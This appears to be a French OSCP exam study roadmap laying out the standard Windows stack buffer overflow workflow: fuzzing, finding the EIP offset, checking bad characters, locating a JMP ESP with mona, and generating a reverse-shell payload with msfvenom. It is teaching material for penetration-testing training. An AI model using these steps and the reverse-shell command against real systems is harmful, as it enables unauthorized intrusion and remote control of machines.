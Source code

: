 # OSCP
Road map pour OSCP

# FUZZING :
Trouver un paramètre et lui envoyer autant de bytes possibles en créant un script python et en utilisant la lib socket.

Une fois que le fuzzing a crash, récuperer le nombre de bytes qui l'ont fait crash. 

# FINDING OFFSET :
Afin de récuperer l'offset précis pour écrire EIP, utiliser "/usr/share/metasploit-framework/tools/exploit/pattern_create.rb - l {nb de bytes qui ont fait crash le fuzzer}" pour générer des bytes uniques.

Ensuite on modifie le script python afin d'envoyer les bytes générés, on execute le script et on récupere sur Immunity la valeur de EIP.

Après cela, utiliser "/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l {nb bytes qui ont fait crash le fuzzer} -q {offset trouvé sur EIP dans Immunity}"

Le script ruby nous retourneras l'offset précis afin de controler EIP, tester en ajoutant :

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {"B" * 4}

Cette fois, on devrais voir EIP à "42424242".

# FINDING BADCHARS :
Taper sur Google : badchars, copier le code et le coller dans une variable, les encodés directement et les rajouter qu'après la fonction encode.

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {"B" * 4} + {badchars}
      
Retourner sur Immunity, aller sur ESP, clic droit et follow dump, si la suite des badchars s'affiche correctement, il n'y a pas de badchars, sinon, récuperer le ou les badchars et les exclures lors de la génération de shellcode.

# FINDING vulnerable MODULE :
Désormais, aller sur Immunity importer mona, relancer le programme et chercher un module sans aucune sécurité active (tout à false) :

      !mona modules

Après cela, chercher dans ce propre module, une adresse qui jump sur ESP afin de réecrire dedans et executer le shellcode

      !mona jmp -r esp -m {nom du module non sécurisé}
Ou

      !mona jmp -r esp -cpb "\x00"
      
Quand l'adresse est trouvée, relancer Immunity en attachant le programme, cliquer en haut sur "Go to address in disassembler", entrer l'adresse et poser un breakpoint avec F2.


Aller sur le script python et faire ceci :

      shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {adresse JMP en little endian}
      
Pour l'adresse en little endian déjà encodée en byte : ret = bytes.fromhex('{Adresse en little endian}')

Si après exécution du script, EIP contient la valeur de l'adresse, cela fonctionne.

# GENERATING SHELLCODE :
Afin de générer le shellcode, utiliser msfvenom :

      msfvenom --arch x86 --platform windows LHOST={@IP} LPORT={@PORT} -e x86/shikata_ga_nai -p windows/shell_reverse_tcp -f python -b "\x00 (ne pas oublier les badchars trouvés)"
      
 Copier le shellcode, le mettre dans le script et l'ajouter de la manière suivante :
 
       shellcode = {"A" * nb de bytes qui ont fait crash le fuzzer} + {adresse JMP en little endian} + nop*10 + {shellcode généré}
       
# REVERSE SHELL :
Se mettre à l'écoute au préalable, lancer le script, normalement un shell est poppé.
